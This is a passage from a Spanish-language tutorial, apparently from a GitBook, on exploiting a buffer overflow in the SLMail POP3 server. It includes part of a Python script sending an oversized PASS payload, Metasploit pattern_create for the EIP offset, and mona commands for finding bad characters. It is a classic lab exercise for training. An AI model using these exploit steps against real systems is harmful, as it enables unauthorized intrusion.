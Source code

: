 ```python
            s.connect((target_ip, int(target_port)))

            s.send(b"USER test\r\n")
            payload = b"PASS " + buf + b"\r\n"
            s.send(payload)
            data = s.recv(1024) # Una vez se produzca el overflow no devolverá más data y se quedará colgado en el número de bytes que nos interesan
            s.close()
        except:
            print("[!] Error de conexion")
            sys.exit(1)
        
```
{% endcode %}

Ahora necesitamos calcular el número exacto de bytes a partir del cual se genera el overflow, sabemos que ronda los 3000 bytes, ya que es donde nuestro script deja de comunicarse con el proceso de SLMail, por lo que podremos usar una herramienta de Metasploit para calcular el número:

```python
patter-create -l <lengh-bytes>
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

Esta utilidad nos permite que al generar el overflow y fijarnos en que posición esta el EIP, nos dirá el número de bytes que desbordan la pila:

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

### 3. Eliminar Badchars

Para prevenir que nuestro shellcode crashee, vamos a tener que buscar y eliminar los badchars que puedan generar conflicto. Ayudándonos de la utilidad **mona** podremos generar un array de bytes, generar un overflow y comparar la lista de badchars generado con lo que está en memoria, si falta algo en memoria identificamos exitosamente uno de estos caracteres.&#x20;

```python
# Crea una carpeta en el escritorio con el nombre del proceso
!mona config -set workingfolder /path/%p  

# Genera un array de bytes excluyendo al 0x00 que sabemos que es un badchar por defecto
!mona bytearray -cpb '\x00'
```
